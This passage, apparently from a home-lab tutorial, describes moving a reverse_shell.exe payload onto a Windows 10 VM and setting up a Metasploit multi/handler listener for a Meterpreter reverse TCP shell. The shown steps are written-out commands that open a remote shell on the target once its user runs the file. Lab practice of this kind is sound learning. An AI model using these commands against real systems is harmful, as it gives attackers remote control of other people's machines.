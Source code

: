 Step 2: Transfer Payload to Windows 10
Transfer reverse_shell.exe to the Windows VM using:

  - Shared folders
  - HTTP server (e.g., python3 -m http.server)
  - Or simple drag-and-drop if using 
    VirtualBox with Guest Additions
![alt text](Screenshots/02_reverseshell.png)

Step 3: Set Up Metasploit Listener
```bash
msfconsole
```
Inside msfconsole:
```bash 
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <Your_Kali_IP>
set LPORT 4444
run
```
Wait for the Windows user to execute reverse_shell.exe.